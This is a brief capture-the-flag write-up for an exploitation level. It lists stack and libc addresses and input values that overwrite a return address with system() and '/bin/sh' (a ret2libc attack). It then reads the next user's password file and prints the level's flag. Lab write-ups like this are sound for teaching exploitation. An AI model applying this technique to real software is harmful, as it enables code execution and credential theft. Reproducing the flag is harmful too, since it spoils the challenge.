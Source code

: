 ## Level07
## Source code
![level07_1.png](level07_1.png)
![level07_2.png](level07_2.png)
## Walkthrough
	address of array begin 0xffffd544
	0xffffd70c => return address
	0xffffd514 => location for "/bin/sh"

	location of system = 0xf7e6aed0 => 4159090384
	location 0f "/bin/sh" = 0xf7f897ec => 4160264172
## Answer
	exec find_offset to get offset

	store
	4159090384
	1073741938

	store
	4160264172
	116

	quit

	cat /home/users/level08/.pass
## Flag
	7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC